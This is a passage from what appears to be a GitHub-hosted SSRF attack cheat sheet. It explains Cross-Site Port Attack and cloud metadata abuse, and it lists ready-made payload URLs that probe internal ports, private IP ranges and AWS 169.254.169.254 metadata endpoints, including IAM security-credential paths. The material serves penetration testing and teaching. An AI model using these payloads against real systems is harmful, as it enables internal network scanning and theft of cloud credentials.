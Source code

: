 You've been exploited :(`  
  
`.  
QUIT`

- **Cross-Site Port Attack (XSPA)** : 
Cross-Site Port Attack (XSPA) is a type of SSRF where an attacker is able to scan the server for its open ports. This is usually done by using the loopback interface on the server (`127.0.0.1` or `localhost`) with the addition of the port that is being scanned (`21, 22, 25...`).  
 
 ***Abusing XSPA***  
Some examples are:  
  
`https://target.com/page?url=http://localhost:22/  
https://target.com/page?url=http://127.0.0.1:25/  
https://target.com/page?url=http://127.0.0.1:3389/  
https://target.com/page?url=http://localhost:PORT/`  

![enter image description here](https://raw.githubusercontent.com/ShubhamDubeyy/Route-To-Toor/gh-pages/port.png)
  ![enter image description here](https://raw.githubusercontent.com/ShubhamDubeyy/Route-To-Toor/gh-pages/port2.png)
Besides scanning for ports an attacker might also run a scan of running hosts by trying to ping private IP addresses:

-   `**192.168.0.0/16**`
-   `**172.16.0.0/12**`
-   `**10.0.0.0/8**`

Useful Links : https://ibreak.software/2012/11/cross-site-port-attacks-xspa-part-1/
## **Cloud provider**

With practically every business running on some kind of a cloud network and database, securing the cloud has never been more important, here are the most important reasons why.  With 96% of all enterprises in the U.S. Using some form of cloud computing, it’s clear that this technology has experienced a rapid proliferation in the past few years.

### **Cloud provider metadata**

With SSRF an attacker is able to read metadata of the cloud provider that you use, be it AWS, Google Cloud, Azure, DigitalOcean, etc. This is usually done by using the private addressing that the provider listed in their documentation.

#### **AWS**

For AWS instead of using `localhost` or `127.0.0.1` attackers use the `169.254.169.254` address for exploits.  
  
Significant information can be extracted from AWS metadata, from public keys, security credentials, hostnames, IDs, etc.  
  
Some common exploits include:  
  
`https://target.com/page?url=http://169.254.169.254/latest/user-data  
https://target.com/page?url=http://169.254.169.254/latest/user-data/iam/security-credentials/ROLE_NAME  
https://target.com/page?url=http://169.254.169.254/latest/meta-data  
https://target.com/page?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME  
https://target.com/page?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance  
https://target.com/page?url=http://169.254.169.254/latest/meta-data/ami-id  
https://target.com/page?url=http://169.254.169.254/latest/meta-data/hostname  
https://target.com/page?url=http://169.254.169.254/latest/meta-data/public-keys  
https://target.com/page?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy  
https://target.com/page?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access  
https://target.com/page?url=http://169.254.169.254/latest/dynamic/instance-identity/document  